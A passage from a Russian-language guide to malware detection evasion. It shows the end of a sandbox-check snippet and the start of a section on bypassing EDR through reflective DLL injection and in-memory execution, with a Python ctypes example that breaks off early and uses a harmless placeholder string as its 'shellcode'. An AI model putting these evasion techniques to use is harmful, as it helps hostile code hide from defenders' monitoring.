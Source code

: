             # exit()
        else:
            print("Спасибо! Запускаю основную полезную нагрузку...")
            # print("Running real payload...")
    except EOFError: # Может возникнуть, если input() не получает данные в некоторых средах
        print("Нет ввода (EOF). Возможно, песочница. Завершение.")
        # exit()
    ```

**Часть 4: Продвинутые Техники Уклонения от Обнаружения**

Эти методы нацелены на обход более сложных систем защиты, таких как EDR (Endpoint Detection and Response) и продвинутые системы мониторинга.

1.  **Динамическая Загрузка DLL/Кода из Памяти (Reflective DLL Injection, In-Memory Execution)**
    Вместо того чтобы сохранять вредоносный файл или DLL на диск (что легко отслеживается), код загружается и выполняется непосредственно из памяти.
    *   **Пример (концептуальный, Windows): Загрузка "DLL" из памяти**
        Этот пример демонстрирует выделение памяти, копирование в нее байт-кода (здесь – сильно урезанная base64 строка, имитирующая DLL) и создание потока для его выполнения. EDR системы отслеживают такие паттерны (VirtualAlloc -> WriteProcessMemory/RtlMoveMemory -> CreateRemoteThread/CreateThread).
        ```python
        import ctypes
        import base64

        # Это ОЧЕНЬ УПРОЩЕННАЯ имитация. Реальный шеллкод или DLL будут значительно сложнее.
        # Это base64 от простой строки "Hello from memory!" для демонстрации.
        # В реальности это был бы машинный код.
        shellcode_b64 = "SGVsbG8gZnJvbSBtZW1vcnkh" # "Hello from memory!"
        # Для реального шеллкода это были бы байты, например:
        # shellcode_bytes = b"\x90\x90\xCC..." # NOP, NOP, INT3 (Breakpoint)

        try:
            # Для Windows
            kernel32 = ctypes.WinDLL('kernel32', use_last_error=True)
